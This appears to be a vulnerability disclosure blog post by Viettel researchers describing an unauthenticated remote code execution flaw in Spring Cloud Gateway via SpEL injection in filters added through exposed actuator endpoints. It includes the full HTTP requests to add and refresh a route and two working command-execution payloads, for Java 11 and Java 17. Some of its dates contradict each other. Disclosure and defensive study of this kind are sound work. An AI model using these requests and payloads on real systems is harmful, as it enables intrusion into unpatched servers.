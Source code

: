 ```yaml
---
layout: post
title:  "Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](/assets/spring-gateway/duplicate.png)
- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.
![](/assets/spring-gateway/dup-date.png)
![](/assets/spring-gateway/my-date.png)

Seem that we reported later than him 1day. T.T
</i>

# I. Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# II. Detail Analysis:
## 1. Functional Design:
![](/assets/spring-gateway/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## 2. Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](/assets/spring-gateway/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](/assets/spring-gateway/list-routes.png)

2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](/assets/spring-gateway/new-route.png)
3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](/assets/spring-gateway/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](/assets/spring-gateway/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## 3. Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](/assets/spring-gateway/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](/assets/spring-gateway/filter-definition.png) 
![filter](/assets/spring-gateway/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](/assets/spring-gateway/getvalue.png)
![filter](/assets/spring-gateway/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](/assets/spring-gateway/result1.png)
![filter](/assets/spring-gateway/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# III. Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# IV. Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
